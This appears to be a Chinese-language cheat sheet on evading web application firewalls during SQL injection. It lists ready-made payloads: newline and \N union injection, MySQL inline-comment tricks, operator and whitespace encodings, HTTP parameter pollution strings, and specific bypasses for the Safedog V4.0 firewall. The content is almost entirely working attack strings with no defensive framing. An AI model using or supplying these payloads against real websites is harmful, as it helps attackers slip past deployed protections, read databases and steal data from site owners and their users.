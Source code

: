 ## 换行(\N)绕过

```sql
select * from admin where username = \N union select 1,user() from admin
```

## 注释符内联注释绕过：

```sql
union selecte ---> /*!union*/ select
```

## 同义词替换

```
and ---> &&

or ---> ||

=(等于号)=<、>

空格 ---> %09、%0a、%0b、%0c、%0d、%20、%a0等

# %0a是换行，也可以替代空格
```

## HTTP参污染

对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个

```sql
?id=1&id=2&id=3

?id=1/**&id=-1%20union%20select%201,2,3%23*/
```

## 安全狗 V4.0绕过

```sql
order by绕过：	%20/*//--/*/  

联合绕过：		union /*!--+/*%0aselect/*!1,2,3*/ --+

from绕过： 	/*!06447%23%0afrom*/
```


